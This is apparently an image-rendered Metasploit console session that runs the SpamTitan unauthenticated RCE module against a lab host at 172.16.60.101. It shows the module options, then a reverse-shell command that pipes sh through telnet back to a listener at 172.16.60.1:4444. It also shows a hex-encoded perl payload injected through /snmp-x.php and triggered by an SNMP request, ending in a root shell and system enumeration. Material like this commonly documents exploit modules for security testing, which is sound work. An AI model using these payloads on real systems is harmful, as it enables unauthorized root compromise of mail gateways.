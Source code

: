 ```
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix In-Memory


msf exploit(freebsd/webapp/spamtitan_unauth_rce) > check

[*] Check if /snmp-x.php exists
[*] 172.16.60.101:80 - The target appears to be vulnerable.
msf exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[+] sh -c '(sleep 4511|telnet 172.16.60.1 4444|while : ; do sh && break; done 2>&1|telnet 172.16.60.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'perl -e system -e pack -e qq,H244,,qq,7368202d63202728736c65657020333735347c74656c6e6574203137322e31362e36302e3120343434347c7768696c65203a203b20646f20736820262620627265616b3b20646f6e6520323e26317c74656c6e6574203137322e31362e36302e312034343434203e2f6465762f6e756c6c20323e263120262927,'#
[*] Send an SNMP Get-Request to trigger the payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ldqlDor8slARqZ0Q;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "Connected: not found\r\nEscape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.60.1:4444 -> 172.16.60.101:38973) at 2020-10-28 15:56:55 +0100

id
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
uname -a
FreeBSD spamtitan.example.com 10.1-RELEASE-p8 FreeBSD 10.1-RELEASE-p8 #1: Wed May  6 10:36:09 IST 2015     root@stbuild-10-amd64.spamtitan.com:/usr/obj/usr/src/sys/SPAMTITAN  amd64
ifconfig
em0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> metric 0 mtu 1500
	options=9b<RXCSUM,TXCSUM,VLAN_MTU,VLAN_HWTAGGING,VLAN_HWCSUM>
	ether 00:0c:29:cb:1d:73
	inet 172.16.60.101 netmask 0xffffff00 broadcast 172.16.60.255
	nd6 options=29<PERFORMNUD,IFDISABLED,AUTO_LINKLOCAL>
```
